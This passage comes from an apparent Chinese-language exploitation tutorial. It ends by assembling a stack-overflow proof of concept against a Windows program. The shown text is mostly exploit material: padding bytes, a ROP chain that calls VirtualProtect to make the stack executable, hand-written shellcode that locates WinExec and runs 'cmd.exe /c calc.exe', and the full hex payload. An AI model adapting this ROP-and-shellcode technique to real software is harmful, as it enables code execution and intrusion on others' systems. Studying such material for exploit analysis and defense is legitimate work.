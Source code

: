 这里需要说明一点的是，`VirtualProtect`的参数问题，`参数1`和`参数4`需要根据自己系统上的栈空间来构造

### 5.6 跳转到栈空间
执行了`VirtualProtect`之后，就需要跳转到栈空间去执行`ShellCode`了，构造了这个栈地址之后`ROP`链也就到这就结束了，其余的就是`ShellCode`了。而这个栈空间地址也需要根据自己构造的`ROP`链和系统来决定

| ROP值 | 说明 |
| ---- | ---- |
| A8FF1200 | 最后一个RET地址，执行ShellCode的地址 |

---

## 6. 最终的 Poc

```c
// 填充物
313233343132333431323334313233343132333431323334313233343132330090909090

// ROP链
7F154000
F81F4000
00000000
84164000
00000000
80A0FFFF
9B134000
00000000
00000000
00000000
00000000
59144000
84164000
00000000
00000000
7B164000
FCFF1200
01000000
40000000
FCFF1200
00000000
00000000
A8FF1200

// ShellCode
A100204000	// mov eax,[0x402000]	获取导入表函数地址
056A360400	// add eax,4366A   	通过偏移找到WinExec()函数，这个偏移需要根据系统而决定
EB14            // jmp 12FFC8		跳转到下方去执行，这里的偏移根据参数不同需要改变
636D642E657865202F632063616C632E65786500	// "cmd.exe /c calc.exe"字符串，WinExec()的参数

6A00        // push 0		WinExec()参数1
68B4FF1200  // push 12FFB4	WinExec()参数2，这里的参数地址需要根据参数改变
FFD0        // call eax 	执行WinExec()

// 完整的Poc
3132333431323334313233343132333431323334313233343132333431323300909090907F154000F81F400000000000841640000000000080A0FFFF9B13400000000000000000000000000000000000591440008416400000000000000000007B164000FCFF12000100000040000000FCFF12000000000000000000A8FF1200A100204000056A360400EB14636D642E657865202F632063616C632E657865006A0068B4FF1200FFD0
```

---